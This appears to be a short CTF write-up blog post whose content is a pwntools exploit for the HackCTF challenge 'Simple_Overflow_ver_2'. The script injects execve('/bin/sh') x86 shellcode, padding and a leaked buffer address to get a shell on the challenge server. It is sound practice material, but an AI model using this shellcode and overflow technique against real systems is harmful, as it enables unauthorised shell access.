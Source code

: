 ```yaml
---
title: "[HackCtf] Simple_Overflow_ver_2"
date: 2020-07-09
ctf: HackCTF
tag: [pwnable]
layout: post
---
```


{% highlight python %}
from pwn import *

context.log_level="debug"

p = remote("ctf.j0n9hyun.xyz", 3006)
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"
print(p.recv(1024))
p.sendline("A")
p.recvuntil("0x")
buf = int(p.recv(1024)[:8],16)
print(hex(buf))
p.sendline("y")

payload = shellcode
payload+= "\x90"*115
payload+= p32(buf)
p.sendline(payload)
print(p.recv(1024))
p.interactive()
{% endhighlight %}
